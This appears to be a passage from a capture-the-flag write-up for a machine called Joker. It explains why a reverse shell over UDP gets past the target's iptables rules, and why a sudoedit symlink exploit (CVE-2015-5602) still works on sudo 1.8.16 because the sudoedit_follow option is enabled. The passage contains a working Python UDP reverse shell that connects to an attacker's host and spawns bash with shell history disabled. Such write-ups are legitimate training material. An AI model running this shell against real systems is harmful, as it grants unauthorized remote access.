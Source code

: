 {% accordion Why get reverse shell over UDP? %}
Enumerate the firewall at `/etc/iptables/rules.v4`

```shell
:INPUT DROP [41573:1829596]
:FORWARD ACCEPT [0:0]
:OUTPUT ACCEPT [878:221932]
-A INPUT -i ens33 -p tcp -m tcp --dport 22 -j ACCEPT
-A INPUT -i ens33 -p tcp -m tcp --dport 3128 -j ACCEPT
-A INPUT -i ens33 -p udp -j ACCEPT
-A INPUT -i ens33 -p icmp -j ACCEPT
-A INPUT -i lo -j ACCEPT
-A OUTPUT -o ens33 -p tcp -m state --state NEW -j DROP
COMMIT
```

It begins by setting the default policy for inbound traffic to `DROP`, and for outbound and forward to `ACCEPT`. Going through the rules from the top:

- TCP 22 inbound is allowed;
- TCP 3128 inbound is allowed;
- All UDP inbound is allowed;
- All ICMP inbound is allowed;
- All localhost inbound is allowed;
- All new TCP connections outbound are dropped.

Since UDP is accepted inbound and not blocked outbound. You can get UDP reverse shell by using commands:

```python
import pty, os, socket

s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
s.connect((lhost, lport))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
os.putenv("HISTFILE",'/dev/null')
pty.spawn("/bin/bash")
```

{% endaccordion %}

{% accordion Why did the exploit succeed with sudoedit version 1.8.16? %}
`CVE-2015-5602` effects `sudo` versions less than and equal to `1.8.14`. But Joker has `sudo` version `1.8.16`.
When this vulnerability was patched in version `1.8.15`, they introduced the `sudoedit_follow`.

> Starting with version `1.8.15`, `sudoedit` will not follow symbolic links when opening files unless the `sudoedit_follow` option is enabled. The FOLLOW and NOFOLLOW tags override the value of sudoedit_follow and can be used to permit (or deny) the editing of symbolic links on a per-command basis. These tags are only effective for the sudoedit command and are ignored for all other commands.

So in order to not break the behavior if someone really wanted that, the `sudoedit_follow` flag allows it to behave like the version `1.8.14` and before. Notably, this flag is present in Joker's configuration.
